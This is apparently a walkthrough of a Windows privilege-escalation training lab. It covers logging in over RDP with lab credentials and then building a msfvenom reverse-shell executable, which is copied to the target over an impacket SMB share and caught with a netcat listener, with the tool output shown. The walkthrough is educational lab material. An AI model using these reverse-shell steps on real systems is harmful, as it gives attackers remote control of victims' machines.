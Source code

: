 <code>xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP</code><br>

The next tasks will walk you through different privilege escalation techniques.<br>

After each technique, you should have a admin or SYSTEM shell.<br>

<ins>Remember to exit out of the shell and/or re-establish a session as the "user" account before starting the next task</ins>!<br></p>

<p><em>Answer the question below</em></p>

<p>1.1. Deploy the Windows VM and login using the "user" account.<br>
<code>No answer needed</code></p>

```bash
:~/WindowsPrivEsc# xfreerdp /u:user /p:password321 /cert:ignore /v:xx.xxx.xx.xx /dynamic-resolution
```

<p align="center"><img width="600px" src="https://github.com/user-attachments/assets/7c525352-dd17-49b7-8e00-e1dc5740c33b"></p>

<br>
<h2>Task 2 . Generate a Reverse Shell Executable<a id='2'></a></h2>
<p>On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:<br>

<code>msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe</code><br>

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.<br>

On Kali, in the same directory as reverse.exe:<br>

<code>sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .</code><br>

On Windows (update the IP address with your Kali IP):<br>

<code>copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe</code><br>

Test the reverse shell by setting up a netcat listener on Kali:<br>

<code>sudo nc -nvlp 53</code><br>

Then run the reverse.exe executable on Windows and catch the shell:<br>

<code>C:\PrivEsc\reverse.exe</code><br>

The reverse.exe executable will be used in many of the tasks in this room, so don't delete it!</p>

<p><em>Answer the question below</em></p>

<p>2.1. Generate a reverse shell executable and transfer it to the Windows VM. Check that it works!<br>
<code>No answer needed</code></p>

```bash
:~/WindowsPrivEsc# msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx.xxx.xx.xxx LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
